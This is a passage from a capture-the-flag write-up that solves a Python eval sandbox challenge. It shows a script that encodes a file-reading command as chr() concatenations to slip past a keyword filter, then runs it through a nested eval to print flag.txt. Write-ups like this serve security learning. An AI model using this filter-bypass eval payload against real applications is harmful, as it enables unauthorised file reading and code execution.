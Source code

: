 ```python
cmd = "open('flag.txt','r').read()" # Upsss, spoiler alert
payload = "str("
for c in cmd:
    payload += f"chr({ord(c)})+"

payload = payload[:-1] + ")"
print(payload)
``` 

So, now we need something to EVALuate that payload. _eval()_ will make the trick (yes, we can nest them without any problem, they will share global and local variables). And once the payload is evaluated, we need to see what it returned, a print will be handy.

```python
# Payload to read flag.txt
open('flag.txt','r').read()

# Bypass payload
str(chr(111)+chr(112)+chr(101)+chr(110)+chr(40)+
    chr(39)+chr(102)+chr(108)+chr(97)+chr(103)+
    chr(46)+chr(116)+chr(120)+chr(116)+chr(39)+
    chr(44)+chr(39)+chr(114)+chr(39)+chr(41)+chr(46)
    +chr(114)+chr(101)+chr(97)+chr(100)+chr(40)+chr(41))

# Final payload
print(eval(str(chr(111)+chr(112)+chr(101)+
    chr(110)+chr(40)+chr(39)+chr(102)+chr(108)
    +chr(97)+chr(103)+chr(46)+chr(116)+chr(120)
    +chr(116)+chr(39)+chr(44)+chr(39)+chr(114)
    +chr(39)+chr(41)+chr(46)+chr(114)+chr(101)
    +chr(97)+chr(100)+chr(40)+chr(41))))

```

Use the payload and get the flag!

<p align="center">
  <img src="/images/writeups/CyberApocalypse2023/6_1_flag.png" width="70%"/>
</p>

